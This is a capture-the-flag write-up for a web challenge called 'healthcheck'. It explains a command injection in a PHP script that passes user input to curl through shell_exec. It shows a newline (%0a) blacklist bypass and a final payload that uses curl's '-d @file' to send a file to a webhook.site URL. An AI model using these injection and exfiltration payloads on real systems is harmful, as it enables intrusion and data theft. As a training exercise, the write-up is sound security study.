




# healthcheck

>Category: Web Exploitation 🕸️







Step-by-Step Explanation of the Exploit
1️⃣ Understanding the Web Application
The challenge provides a PHP script that accepts a POST request with a url parameter.

The script sanitizes the input by removing certain blacklisted characters.

```php
$blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

$sanitized_url = str_replace($blacklist, '', $url);
```

It then executes the following command:

```php
$command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";
```

Key Takeaway:

The curl command fetches the url input.

The response is piped (|) to grep to extract only the HTTP response code.

However, there is a command injection vulnerability because the input is directly used in a system command.

```php
$output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
```

2️⃣ Identifying the Injection Point
The presence of curl <user_input> means we can inject arbitrary commands.

The blacklist **removes ;, &, |**, and other common special characters, but newline (%0a) is not blocked.

Since the command is executed in a shell, injecting **%0a** (newline) allows us to run new commands separately.

Key Takeaway:

Using **%0a** lets us break out of curl and execute additional shell commands.

3️⃣ Attempting to Read the hopes_and_dreams File
We assumed that the file hopes_and_dreams existed in the same directory as the script.

Running:

```
http://104.214.185.119/index.php/%0acat hopes_and_dreams
```

I think this successfully executed cat hopes_and_dreams due to the code is 200, but the response was piped to grep, so it didn't show useful output.

Key Takeaway:

The file was accessible, but output handling was an issue.

4️⃣ Finding a Way to Extract the Output
🚫 Failed Attempts
We tried:

```
http://104.214.185.119/index.php/ -X POST -d "$(cat hopes_and_dreams)" https://webhook.site/...
```

Problem: The shell treated `$(cat hopes_and_dreams)` as a literal string instead of executing it due to $() are being blacklisted.

✅ The Working Exploit
The key was using file input with curl:

```
http://104.214.185.119/index.php/ -X POST -d @hopes_and_dreams https://webhook.site/...
```

Why did this work?

@<filename> tells curl to read directly from the file and send it as a request body.

No need for $(), or >, which were blocked.

Key Takeaway:

The @<filename> trick in curl allows file exfiltration without needing command substitution.

Final Summary
Identified command injection via curl in PHP.

Confirmed file existence (cat hopes_and_dreams).

Bypassed output handling restrictions with @<filename> in curl.

Successfully exfiltrated the file contents via a webhook.

## Final Payload
```
http://104.214.185.119/index.php/ -X POST -d @hopes_and_dreams https://webhook.site/8001c163-fff8-48f1-94d9-787c5b4a24d6
```



## 🏳️Flag
>umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}